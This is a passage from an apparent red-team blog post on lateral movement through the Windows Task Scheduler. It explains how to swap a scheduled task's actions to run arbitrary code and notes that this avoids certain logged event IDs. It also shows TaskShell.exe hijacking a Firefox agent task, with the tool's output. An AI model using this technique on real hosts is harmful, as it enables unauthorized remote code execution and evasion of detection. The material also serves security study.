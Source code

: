 ![](/assets/2021-01-25-random-notes-on-task-scheduler-lateral-movement/1110ce39827c31479a772275a48d5b66.png)

From an opsec perspective, this implies that you need to drop an executable into the remote host. This might not be appropriate for every operation (it certainly was for UNC2452, lol). However, one advantage is that the scheduled task will not be modified and therefore the event IDs we will discuss later will not be generated.

## Task Replacement

Scheduled tasks have a set of "actions" associated with them. We can modify the actions associated with a specific task in order to execute arbitrary code (either using an EXE or a LOLbin).

A similar approach was popularised by Mr-Un1k0d3r with his [SCShell](https://github.com/Mr-Un1k0d3r/SCShell). SCShell used the Service Control Manager (SCM) APIs to modify the `binpath` value of a given service.

```
TaskShell.exe -h localhost -t "\Mozilla\Firefox Default Browser Agent E7CF176E110C211B" -r -b notepad.exe
[+] Authenticating using current user's token
[+] Adding custom action to task..
[+] Enabling the task
[+] Authenticating using current user's token

============================
[+] Path: \Mozilla\Firefox Default Browser Agent E7CF176E110C211B
[+] Principal: COMMANDO\riccardo
[+] Action: notepad.exe
At 12:56 PM every day
[+] Action: C:\Program Files (x86)\Mozilla Firefox\default-browser-agent.exe do-task "E7CF176E110C211B"
At 12:56 PM every day


[+] Triggering execution
[+] Cleaning up
```
